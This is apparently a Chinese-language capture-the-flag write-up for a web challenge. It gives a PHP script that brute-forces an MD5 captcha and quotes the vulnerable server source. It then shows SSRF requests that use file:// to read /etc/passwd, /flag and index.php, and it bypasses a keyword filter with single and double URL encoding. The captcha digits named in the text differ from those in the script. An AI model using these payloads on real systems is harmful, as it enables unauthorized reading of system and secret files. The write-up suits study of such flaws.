 ### write up 
Captcha的地方写着代码：substr(md5(captcha), -6, 6) == "974961"，很明显验证码的md5值的后六位要等于指定的数字。
~~~
          <?php
for ($i=0; $i < 1000000000; $i++) {
    $a = substr(md5($i), -6, 6);
    if ($a == "fc6943") {   //此处为==后面的内容
        echo $i;   //输出验证码
        break;
    }
}
?>
~~~


解决了验证码的问题后，我们可以试着通过SSRF中URL伪协议file://来访问服务器的文件，例如/etc/passwd
~~~
url=file:///etc/passwd&captcha=*****
~~~
接着试试能不能访问/flag文件
~~~
url=file:///flag&captcha=*****
再试试看能不能读网页的源代码
~~~
~~~
url=file:///var/www/html/index.php&captcha=*****
~~~
~~~
<?php
error_reporting(0);
session_start();
require_once "lib.php";
init();
 
$is_die = 0;
$is_post = 0;
$die_mess = '';
$url = '';
 
if (isset($_POST['url']) && isset($_POST['captcha']) && !empty($_POST['url']) && !empty($_POST['captcha']))
{
    $url = $_POST['url'];
    $captcha = $_POST['captcha'];
    $is_post = 1;
    if ( $captcha !== $_SESSION['answer'])
    {
        $die_mess = "wrong captcha";
        $is_die = 1;
    }
    if ( preg_match('/flag|proc|log/i', $url) )
    {
        $die_mess = "hacker";
        $is_die = 1;
    }
}
~~~
阅读源码，发现确实对flag进行了过滤 preg_match('/flag|proc|log/i', $url) ，那么就需要对preg_match函数进行绕过。
同时因为/i 表明不区分大小写，因此无法通过大小写绕过。试试URL编码，file:///%66%6c%61%67
~~~
url=file:///%66%6c%61%67&captcha=*****
~~~
一次不行进行二次编码：
~~~
url=file:///%25%36%36%25%36%63%25%36%31%25%36%37&captcha=*****
~~~
